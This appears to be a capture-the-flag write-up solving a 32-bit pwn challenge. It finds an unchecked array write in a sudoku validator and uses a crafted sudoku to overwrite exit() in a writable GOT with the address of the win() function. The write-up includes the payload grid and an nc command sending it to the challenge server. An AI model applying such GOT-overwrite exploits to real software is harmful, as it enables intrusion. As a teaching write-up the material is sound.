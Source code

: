 # Day 18 - Impressive Sudoku - pwn, math

> First we asked you to solve a sudoku, now we want you to make one.

Service: nc 3.93.128.89 1218

Download: [4964615443db994db372a3d64524510452521f09809fdb50da22e83d15fb48ca.tar.gz](https://advent2019.s3.amazonaws.com/4964615443db994db372a3d64524510452521f09809fdb50da22e83d15fb48ca.tar.gz)

## Initial Analysis

For this pwn, we're given a C source file along with a compiled binary. This certainly makes the disassembly or reversing part of this challenge easier.

The source asks for a solved sudoku and checks that its valid using an arithmetic shortcut - checking the sum and product of each row. If this passes, it writes 8 values to a "scorer" array, multiplies 9 values in the scorer array, and if the result is greater than a large value prints a flag. Given that only 8 values are written, this score will always be zero (since at least one value will be zero). Furthermore, writing the scores to the "scorer" array doesn't do any bounds checking so we likely can perform an arbitrary write if we can construct a sudoku which validates.

The compiled binary provided is a 32-bit. Based on my initial analysis, I was a little confused about the binary's hardening features. In particular, running `hardening-check` (in the `devscripts` package on Ubuntu) and `readelf` (in the `binutils` package on Ubuntu) clearly indicate that read-only relocations is enabled (RELRO):

```
root@2b94168a6ea8:/day18# hardening-check ./chal
./chal:
 Position Independent Executable: no, normal executable!
 Stack protected: yes
 Fortify Source functions: unknown, no protectable libc functions used
 Read-only relocations: yes
 Immediate binding: no, not found!
root@2b94168a6ea8:/day18# 
root@2b94168a6ea8:/day18# readelf -l ./chal

Elf file type is EXEC (Executable file)
Entry point 0x8048470
There are 9 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00120 0x00120 R   0x4
  INTERP         0x000154 0x08048154 0x08048154 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x08048000 0x08048000 0x00c78 0x00c78 R E 0x1000
  LOAD           0x000f0c 0x08049f0c 0x08049f0c 0x00124 0x002dc RW  0x1000
  DYNAMIC        0x000f14 0x08049f14 0x08049f14 0x000e8 0x000e8 RW  0x4
  NOTE           0x000168 0x08048168 0x08048168 0x00044 0x00044 R   0x4
  GNU_EH_FRAME   0x000aa0 0x08048aa0 0x08048aa0 0x0005c 0x0005c R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
  GNU_RELRO      0x000f0c 0x08049f0c 0x08049f0c 0x000f4 0x000f4 R   0x1

 Section to Segment mapping:
  Segment Sections...
   00     
   01     .interp 
   02     .interp .note.ABI-tag .note.gnu.build-id .gnu.hash .dynsym .dynstr .gnu.version .gnu.version_r .rel.dyn .rel.plt .init .plt .plt.got .text .fini .rodata .eh_frame_hdr .eh_frame 
   03     .init_array .fini_array .dynamic .got .got.plt .data .bss 
   04     .dynamic 
   05     .note.ABI-tag .note.gnu.build-id 
   06     .eh_frame_hdr 
   07     
   08     .init_array .fini_array .dynamic .got 
```

However, digging a little further, we can see that the global offset table (GOT) actually starts at address 0x0804a000 - after the `GNU_RELRO` section, and in fact that page is marked read-write when the binary is running:

```
root@2b94168a6ea8:/day18# ./chal
Could you give me a fully solved sudoku?
Enter 9 lines, each containing 9 integers, space separated:
^Z
[1]+  Stopped                 ./chal
root@2b94168a6ea8:/day18# cat /proc/`pidof chal`/maps
08048000-08049000 r-xp 00000000 00:4d 20354301                           /day18/chal
08049000-0804a000 r--p 00000000 00:4d 20354301                           /day18/chal
0804a000-0804b000 rw-p 00001000 00:4d 20354301                           /day18/chal 			<--- the GOT is in this page
f74fb000-f76d0000 r-xp 00000000 08:01 316321                             /lib/i386-linux-gnu/libc-2.27.so
f76d0000-f76d1000 ---p 001d5000 08:01 316321                             /lib/i386-linux-gnu/libc-2.27.so
f76d1000-f76d3000 r--p 001d5000 08:01 316321                             /lib/i386-linux-gnu/libc-2.27.so
f76d3000-f76d4000 rw-p 001d7000 08:01 316321                             /lib/i386-linux-gnu/libc-2.27.so
f76d4000-f76d7000 rw-p 00000000 00:00 0 
f76dc000-f76de000 rw-p 00000000 00:00 0 
f76de000-f76e0000 r--p 00000000 00:00 0                                  [vvar]
f76e0000-f76e1000 r-xp 00000000 00:00 0                                  [vdso]
f76e1000-f7707000 r-xp 00000000 08:01 316317                             /lib/i386-linux-gnu/ld-2.27.so
f7707000-f7708000 r--p 00025000 08:01 316317                             /lib/i386-linux-gnu/ld-2.27.so
f7708000-f7709000 rw-p 00026000 08:01 316317                             /lib/i386-linux-gnu/ld-2.27.so
ffc08000-ffc29000 rw-p 00000000 00:00 0                                  [stack]
```

As you can see above, the binary is also not randomized, so all addresses in `chal` should be fixed. With this in mind, my goal was now to overwrite the `exit()` address in the GOT with the "scorer" writes from a valid sudoku.

Also, if you couldn't tell already, I did most of my testing in an Ubuntu docker container with my working directory mounted at `/day18`. I started this with:

```
$ docker run -it --cap-add=ALL -v `pwd`:/day18 ubuntu:latest
```

## Creating the overwrite

The first step to this challenge I tackled was the GOT overwrite part. To check just this alone, I edited the `chal` binary so that the `check()` function always returned 1. This was done by patching the bytes at address 0x000005F0 with `B8 01 00 00 00 C3` which is x86 assembly for "mov eax, 1; ret".

Next, I calculated that if I had a sudoku with "-105" in position (7,7), and 0x08048799 (the address for the `win()` function) in position (8,8), then the loop

```c
for (int i = 0; i < 8; i++) {
    scorer[sudoku[i][i]] = sudoku[i + 1][i + 1];
}
```

would correctly set the address of `exit()` in the GOT with the win function. Since the binary is 32-bit and all of the sudoku values are integers, we can adjust these two values mod 2^32 to check that the overwrite works. Testing this out on our patched binary gives us the flag (locally).

```
root@2b94168a6ea8:/day18# echo winwinwin > flag.txt
root@2b94168a6ea8:/day18# ./chal_nocheck 
Could you give me a fully solved sudoku?
Enter 9 lines, each containing 9 integers, space separated:
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
Let me take a look...
That is an unimpressive sudoku.
winwinwin
root@2b94168a6ea8:/day18# 
```

Now, all I needed to do was have those two values in my sudoku and create the rest of the square so that the other diagonal addresses (and writes in the `scorer` loop) do not touch any other sensitive memory addresses and cause something like a segfault.

## The Math

As the category for this sudoku alluded to, there was some math to dig into. The only check on the sudoku is that the product and sum of each row, column, and 3x3 grid come to 45 and 362880 respectively. To simplify the problem, if I tried to create one row with our two target values, several low-value integers, and some other "unsafe" values - to be solved with "math" ;) Using this one solution row, we can fill in a sudoku that matches the `check()` constraints and doesn't cause any memory access errors.

The two "unsafe" values were chosen based on the math reducing to two equations (multiply & addition) and two unknowns. In retrospect, I probably could have just run an exhaust on all 2^32 possibilities, but I went the difficult route of solving a quadratic equation modulo 2^32. The math is a little lengthy to describe here, but you can read it in my [python script](./solutions/day18_solver.py).

Running the script in total outputs my sudoku, and then piping the result to the service gives the flag:

```
$ ./day18_solver.py 
1 134514585 1 317322728 1 1 4294967191 3843130128 1
317322728 1 1 4294967191 3843130128 1 1 134514585 1
4294967191 3843130128 1 1 134514585 1 317322728 1 1
134514585 1 317322728 1 1 4294967191 3843130128 1 1
3843130128 1 1 134514585 1 317322728 1 1 4294967191
1 1 4294967191 3843130128 1 1 134514585 1 317322728
1 4294967191 3843130128 1 1 134514585 1 317322728 1
1 1 134514585 1 317322728 1 1 4294967191 3843130128
1 317322728 1 1 4294967191 3843130128 1 1 134514585
$ ./day18_solver.py | nc 3.93.128.89 1218
Could you give me a fully solved sudoku?
Enter 9 lines, each containing 9 integers, space separated:
Let me take a look...
That is an unimpressive sudoku.
AOTW{Th3t_is_such_aN_1mpr3ssive_Sud0ku}$ 
```
